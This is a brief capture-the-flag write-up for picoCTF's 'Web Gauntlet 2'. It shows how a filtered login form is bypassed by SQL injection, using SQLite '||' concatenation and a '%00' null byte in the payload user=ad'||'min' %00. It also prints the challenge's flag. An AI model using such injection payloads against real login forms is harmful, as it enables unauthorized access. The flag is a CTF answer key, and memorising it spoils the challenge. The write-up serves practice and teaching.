# Web Gauntlet 2
###### tags: `web` `ctf` `sql injection`

## examine
![](https://i.imgur.com/vNz1mwx.png)
i understand that this site has vuln about sql injection.
but this form has filter.
![](https://i.imgur.com/wPCmNuf.png)

## solve

in sqlite,use ```||``` for concatenate.
and by using `%00` mean end of sql sentence.

hence, i send ```user=ad'||'min' %00&pass=aiueo```.
![](https://i.imgur.com/hMeIOEt.png)

![](https://i.imgur.com/SAsHLKC.png)

`
picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}
`